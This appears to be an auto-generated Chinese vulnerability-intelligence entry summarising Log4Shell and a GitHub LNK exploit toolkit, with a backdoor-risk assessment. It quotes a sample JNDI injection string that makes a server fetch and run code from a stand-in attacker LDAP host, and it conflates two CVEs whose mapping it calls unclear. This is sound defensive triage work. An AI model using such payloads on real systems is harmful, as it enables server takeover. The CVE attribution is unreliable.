 ## CVE-2021-44228/CVE-2025-44228 - Log4Shell RCE / LNK Exploit

**漏洞编号:** CVE-2025-44228

**漏洞类型:** 远程代码执行 (RCE) / LNK文件利用

**影响应用:** Apache Log4j / Windows LNK

**危害等级:** 高危，可能导致服务器完全控制/客户端执行恶意代码

**影响版本:** Log4j 2.0-beta9 至 2.14.1 (CVE-2021-44228)

**利用条件:** 应用程序使用受影响版本的 Log4j 且允许外部输入记录/用户点击恶意LNK文件

**POC 可用性:** 是

**投毒风险:** 60%

## 详情

根据搜索结果，CVE-2021-44228 (Log4Shell) 是一个存在于 Apache Log4j 2 中的远程代码执行漏洞。攻击者可以通过控制日志消息或日志消息参数来执行任意代码。利用方式通常涉及将恶意JNDI注入字符串（例如 `${jndi:ldap://attacker.com/evil}`）插入到应用程序的日志消息中，当Log4j尝试解析该字符串时，它会从攻击者控制的LDAP服务器下载并执行恶意代码。

提供的漏洞利用代码看起来是一个 LNK 文件漏洞利用程序，使用 Visual Basic .NET (VB.NET) 开发。从 README.md 文件中可以看出，它旨在利用 LNK 文件（Windows 快捷方式）的特性来执行恶意操作，例如文件捆绑、证书欺骗、注册表持久化、文档嵌入等。该代码具有一定的投毒风险，因为它可以被用来捆绑恶意文件、欺骗证书，并且可能包含未公开的后门或恶意行为。虽然提供了license，但是代码的用途是漏洞利用，存在被滥用的风险。

根据`README.md`的描述，这个工具包的功能非常广泛，不仅包括LNK文件利用，还包括文件捆绑、证书欺骗、注册表持久化、文档嵌入和CVE集成等。考虑到其强大的恶意软件生成能力以及明显的反检测机制，有理由怀疑该代码库可能存在额外的，未明确声明的恶意功能或后门，即投毒代码。60%的投毒风险评估基于以下几点：首先，该工具包的主要目的是为了进行渗透测试和漏洞利用，这意味着它本质上是为恶意活动设计的。其次，工具包中包含的各种规避检测技术（如证书欺骗和反检测机制）可能会被滥用，以隐藏恶意行为。第三，考虑到其代码中可能存在的漏洞或后门，使用者有可能会被反向利用。

CVE-2025-44228的信息比较模糊，根据搜索结果可能与cmd相关，需要更多信息才能进行准确评估。

**项目地址:** [Caztemaz/Lnk-Exploit-FileBinder-Certificate-Spoofer-Reg-Doc-Cve-Rce](https://github.com/Caztemaz/Lnk-Exploit-FileBinder-Certificate-Spoofer-Reg-Doc-Cve-Rce)

**漏洞详情:** [CVE-2025-44228](https://nvd.nist.gov/vuln/detail/CVE-2025-44228)